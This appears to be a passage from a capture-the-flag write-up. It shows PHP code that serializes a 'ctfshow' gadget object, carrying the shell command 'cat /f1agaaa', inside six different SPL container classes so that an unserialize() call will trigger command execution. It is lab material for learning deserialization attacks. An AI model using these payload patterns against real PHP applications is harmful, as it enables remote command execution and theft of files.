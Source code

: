 - SplDoublyLinkedList::push
```php
$ctfshowobj = new ctfshow();
$ctfshowobj->ctfshow="cat /f1agaaa";
$sqlobj = new SplDoublyLinkedList();
$sqlobj->push($ctfshowobj);
$ser = serialize($sqlobj);
echo $ser;
```

- SplObjectStorage::attach
```PHP
$ctfshowobj = new ctfshow();
$ctfshowobj->ctfshow="cat /f1agaaa";
$sqlobj = new SplObjectStorage();
$sqlobj->attach($ctfshowobj);
$ser = serialize($sqlobj);
echo $ser;
```

- SplStack::push  (继承了SplDoublyLinkedList)
```php
$ctfshowobj = new ctfshow();
$ctfshowobj->ctfshow="cat /f1agaaa";
$sqlobj = new SplStack();
$sqlobj->push($ctfshowobj);
$ser = serialize($sqlobj);
echo $ser;
```

- SplQueue::push  (继承了SplDoublyLinkedList)
```php
$ctfshowobj = new ctfshow();
$ctfshowobj->ctfshow="cat /f1agaaa";
$sqlobj = new SplQueue();
$sqlobj->push($ctfshowobj);
$ser = serialize($sqlobj);
echo $ser;
```

- ArrayIterator
```php
$ctfshowobj = new ctfshow();
$ctfshowobj->ctfshow="cat /f1agaaa";
$arr = array("wuwumonster"=>$ctfshowobj);
$arrobj = new ArrayIterator($arr);
$ser = serialize($arrobj);
echo $ser;
```

- RecursiveArrayIterator (继承了ArrayIterator)
```php
$ctfshowobj = new ctfshow();
$ctfshowobj->ctfshow="cat /f1agaaa";
$arr = array("wuwumonster"=>$ctfshowobj);
$arrobj = new RecursiveArrayIterator($arr);
$ser = serialize($arrobj);
echo $ser;
```
